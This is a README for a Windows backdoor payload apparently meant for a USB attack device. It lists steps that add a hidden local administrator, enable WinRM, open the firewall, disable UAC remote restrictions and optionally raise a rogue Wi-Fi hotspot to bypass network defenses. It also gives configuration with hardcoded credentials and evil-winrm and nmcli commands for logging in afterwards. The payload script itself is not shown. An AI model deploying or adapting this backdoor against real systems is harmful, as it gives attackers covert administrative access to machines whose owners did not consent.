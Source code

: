 # "Microsoft Windows" WinRM Backdoor

- Title:         "Microsoft Windows" WinRM Backdoor
- Author:        TW-D
- Version:       1.0
- Target:        Microsoft Windows
- Category:      Remote Access

## Description

1) Adds a user account.
2) Adds this local user to local administrator group.
3) If the target computer is equipped with a compatible Wi-Fi card :
    Avoids security measures on the internal network with the 
    creation of a wireless "Hosted Network".
4) Enables "Windows Remote Management" with default settings.
5) Adds a rule to the firewall.
6) Sets a value to "LocalAccountTokenFilterPolicy" to disable "UAC" remote restrictions.
7) Hides user account.

## Configuration

From "payload.txt" change the values of the following constants :
```bash

######## INITIALIZATION ########

readonly WINDOWS_USERNAME="BB_User"
readonly WINDOWS_PASSWORD="BB_P@ssW0rD"

##
# (any) Administrators
# (fr) Administrateurs
##
readonly GROUP_NAME="Administrators"

##
# Can be set to "true" if the target computer 
# is equipped with a compatible Wi-Fi card.
##
readonly WIRELESS_HOTSPOT="false"
readonly HOTSPOT_NAME="BB_HOTSPOT"

```

## Exploitation

>
> The name of the access point and the security key will be those defined by the values of the constants : **HOTSPOT_NAME** and **WINDOWS_PASSWORD**.
>

```
hacker@hacker-computer:~$ nmcli dev wifi connect "<HOTSPOT_NAME>" password "<WINDOWS_PASSWORD>"
```

>
> The connection identifiers will be those defined by the values of the constants : **WINDOWS_USERNAME** and **WINDOWS_PASSWORD**.
>

```
hacker@hacker-computer:~$ evil-winrm --ip <TARGET> --user <WINDOWS_USERNAME> --password '<WINDOWS_PASSWORD>'
*Evil-WinRM* PS C:\Users\<WINDOWS_USERNAME>\Documents> whoami
desktop-xxxxxxx\<WINDOWS_USERNAME>
```
